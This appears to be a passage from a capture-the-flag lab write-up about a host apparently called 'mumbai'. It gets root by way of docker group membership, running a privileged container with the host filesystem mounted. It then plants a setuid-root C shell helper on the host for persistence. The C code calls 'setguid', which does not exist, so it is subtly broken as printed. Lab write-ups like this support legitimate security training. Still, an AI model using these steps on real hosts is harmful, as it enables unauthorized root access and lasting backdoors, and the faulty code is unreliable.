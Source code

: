 After much reading, it seems the docker group is essentially the same as giving a user root permissions. This is how the attack is going to work:

+	Run docker with the --privileged flag
+	Pray there is a stable image on the host we can use to create a container
+	Mount the root filesystem into the new container
+	Make it --interactive and --tty

All in all, our command should look something like this:

```bash
docker run --privileged --interactive --tty --volume /mount_src:/mount_dst image:release /bin/bash
```

First we need to check the apiuser's Dockerfile to see what image was mounted for apache2.

![screenshot](/assets/img/mumbai/mumbai_dockerimg.PNG)

We know for sure there is an image of Ubuntu 14.04 available for us to create a container with, so that is what we will use. Let's try it out.

![screenshot](/assets/img/mumbai/mumbai_root1.PNG)

Outstanding! We now have root privileges from the container leaking over into the filesystem of the container host. We can grab the proof.txt from here, or we can take it a step further and grab a complete root shell on the host. Why would you want to do this? The answer is quite simple: giving you an avenue to escalate back to root in the event the privilege escalation is not available when you revisit a host. We'll drop a file called suidroot.c on the host with the following code:

```c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main() {
	setuid(0);
	setguid(0);
	seteuid(0);
	execvp("/bin/bash", 0);
	return 1;
}
```
